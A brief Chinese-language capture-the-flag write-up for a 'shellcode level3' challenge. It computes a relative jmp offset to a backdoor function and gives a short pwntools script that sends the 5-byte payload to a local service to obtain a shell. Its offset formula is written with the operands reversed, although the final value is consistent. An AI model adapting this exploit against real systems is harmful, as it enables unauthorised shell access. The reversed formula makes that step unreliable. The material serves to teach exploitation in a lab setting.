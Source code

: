 ```yaml
---
title: shellcode level3
date: 2023/9/24 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`shellcode_level3`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序读入5字节并执行，且存在后门函数  
考虑跳转指令执行shellcode跳转到此处

Shellcode: e8 -> call; e9 -> jmp  
后面可跟相对地址（跳转地址-跳转命令所在地址+5）  
相对地址为4Bytes

全局变量code地址0x404089，后门函数`givemeshell`地址0x4011d6  
那么相对地址为0x404089 + 5 - 0x4011d6 = 0xffffd148 `int32_t`

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46239)
sh.sendline(b'\xe9' + p32(0xffffd148))
sh.interactive()
```

Done.
